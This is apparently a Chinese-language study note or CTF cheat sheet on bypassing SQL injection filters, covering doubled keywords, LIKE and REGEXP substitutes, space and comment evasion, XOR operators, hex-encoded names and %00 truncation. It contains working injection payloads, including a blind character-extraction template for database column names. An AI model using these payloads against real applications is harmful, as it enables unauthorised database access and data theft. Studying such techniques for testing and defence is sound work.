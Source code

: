 

<br>

<br>





## 一些绕过

- 过滤`select`,`union`等关键词,可以先试试双写绕过,例如:

```
1' ununionion seselectlect 1,2,group_concat(TABLE_NAME) frfromom information_schema.tables whwhereere table_schema=database()#
```

- **等于号被过滤**可以考虑使用`like`进行模糊查询:

```
select group_concat(column_name) from information_schema.columns where table_name like 'H4rDsq1'
```

- `like`也被过滤的时候可以使用`regexp`进行正则匹配

```
select group_concat(column_name) from information_schema.columns where table_name regexp '^H4' 
```

上面是匹配以`H4`开头的数据

- 空格被过滤可以将每一部分**用括号包裹**, 也可以用注释符代替

```
select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))

/**/
```

- **`or`或`and`被过滤可以尝试使用异或运算符`^`或`XOR`作连接符, 前者按位异或,后者逻辑异或**

  > 异或运算:`a ^ b`,两者不同则结果为1,两者相同则结果位0

- `mysql`会自动将十六进制转换成字符,所以可以把一些关键词转换成16进制: 例如

```
"path":" or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name= 'users' and table_schema=database()),{},1))={}) #"
这里users使用了引号, 导致脚本已知跑不出来
所以把这里的users转换成16进制
"path":" or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name= 0x7573657273 and table_schema=database()),{},1))={}) #"
```

- **注释符`#`和`--`都被过滤,可以尝试使用`%00`去截断**

<br>

<br>

## 其他
